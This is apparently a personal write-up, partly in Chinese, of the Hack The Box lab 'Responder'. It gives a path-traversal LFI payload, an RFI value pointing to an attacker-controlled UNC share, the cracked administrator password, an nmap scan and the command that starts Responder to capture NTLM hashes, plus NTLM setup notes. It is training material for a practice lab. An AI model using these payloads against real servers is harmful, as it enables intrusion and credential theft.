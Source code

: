 <center>Responder</center>



[toc]







## Responder

> Responder





### 1. task

1. When visiting the web service using the IP address, what is the domain that we are being redirected to?

```shell
unika.htb
```

2. Which scripting language is being used on the server to generate webpages?

![image-20241127160422068](./assets/image-20241127160422068-1732694665608-1.png)

```shell
php

# 跳转，修改本机hosts文件
sudo vim /etc/hosts

服务器ip 
```

3. What is the name of the URL parameter which is used to load different language versions of the webpage?

```shell
http://unika.htb/index.php?page=french.html
page
```

4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```shell
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts

../../../../../../../../windows/system32/drivers/etc/hosts
```

5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```shell
//10.10.14.6/somefile
```

6. What does NTLM stand for?

```shell
New Technology LAN Manager
```

7. Which flag do we use in the Responder utility to specify the network interface?

```shell
-I
```

8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

```shell
john the ripper
```

9. What is the password for the administrator user?

```shell
badminton
```

10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

```shell
5985
```





### 2. NTLM协议

> NTLM (NT LAN Manager) 是一种挑战/响应认证协议：[ntlm](https://cloud.tencent.com/developer/article/2227928)

```shell
用于 Windows 网络认证
支持用户和计算机认证
提供消息完整性和机密性
包含 NTLMv1 和 NTLMv2 两个版本
```

````shell
1. windosw服务端


#### 安装 IIS 和 Windows 认证
```powershell
# 使用 PowerShell 安装 IIS
Install-WindowsFeature -Name Web-Server -IncludeManagementTools

# 安装 Windows 认证
Install-WindowsFeature -Name Web-Windows-Auth
```


#### 安装 IIS 和 Windows 认证
```powershell
# 使用 PowerShell 安装 IIS
Install-WindowsFeature -Name Web-Server -IncludeManagementTools

# 安装 Windows 认证
Install-WindowsFeature -Name Web-Windows-Auth
```

2. linux 服务端


#### 安装必要组件
```bash
# Debian/Ubuntu
sudo apt update
sudo apt install samba winbind libpam-winbind libnss-winbind

# CentOS/RHEL
sudo dnf install samba samba-winbind
```


#### 配置 Samba
```ini:/etc/samba/smb.conf
[global]
    workgroup = WORKGROUP
    security = ads
    realm = DOMAIN.COM
    winbind use default domain = yes
    winbind enum users = yes
    winbind enum groups = yes
    template shell = /bin/bash
```


3. linux 客户端


#### 安装客户端工具
```bash
# Debian/Ubuntu
sudo apt install cntlm

# CentOS/RHEL
sudo dnf install cntlm
```


#### 配置 CNTLM
```ini:/etc/cntlm.conf
Username    domain_user
Domain      DOMAIN
Password    password
Proxy       proxy_server:8080
NoProxy     localhost, 127.0.0.*, 10.*, 192.168.*
Listen      3128
```

````





### 3. falg

> 获取flag
>
> Responder: [github](https://github.com/sponsors/lgandx)
>
> Responder 是一个 LLMNR、NBT-NS 和 MDNS 毒化器。 

```shell
# namp -p- 全端口  --min-rate 秒数，提高效率
nmap -v -p- --min-rate 5000 -sV -sC IP

80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: Unika
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


sudo apt install responder

# 监听网卡
sudo responder -I tun0
```



